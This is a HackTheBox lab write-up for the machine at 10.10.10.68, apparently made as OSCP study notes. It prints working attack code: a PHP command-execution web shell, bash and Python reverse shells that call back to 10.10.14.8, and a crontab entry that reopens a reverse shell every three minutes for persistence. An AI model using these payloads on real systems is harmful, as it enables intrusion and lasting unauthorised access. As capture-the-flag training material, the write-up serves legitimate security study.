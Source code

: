 # Information gathering

## system network

10.10.10.68

## Nmap Scan Result

``` ba
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Vuln Scan

find phpbash

![image-20221222111812720](D:\OSCP\hackthebox\attachments\image-20221222111812720.png)

upload simple php backdoor into uploads folder

![image-20221222111844563](D:\OSCP\hackthebox\attachments\image-20221222111844563.png)

get webshell, and get the reverse shell

![image-20221222111934262](D:\OSCP\hackthebox\attachments\image-20221222111934262.png)

payload1:

```php+HTML
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

payload2:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6001 0>&1'
```

#### Proof

![image-20221222112401634](D:\OSCP\hackthebox\attachments\image-20221222112401634.png)

### Lateral Movement

![image-20221222112453595](D:\OSCP\hackthebox\attachments\image-20221222112453595.png)

*payload*:

```bash
sudo -u scriptmanager /bin/bash
```

*persistence*

```bash
(crontab -l ; echo "*/3 * * * *	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

### Privilege Escalation

*find crontab task*

![image-20221222113930570](D:\OSCP\hackthebox\attachments\image-20221222113930570.png)

*payload*

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",6003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

*listener*

```bash
nc -lvnp 6003
```

#### proof

![image-20221222114334043](D:\OSCP\hackthebox\attachments\image-20221222114334043.png)

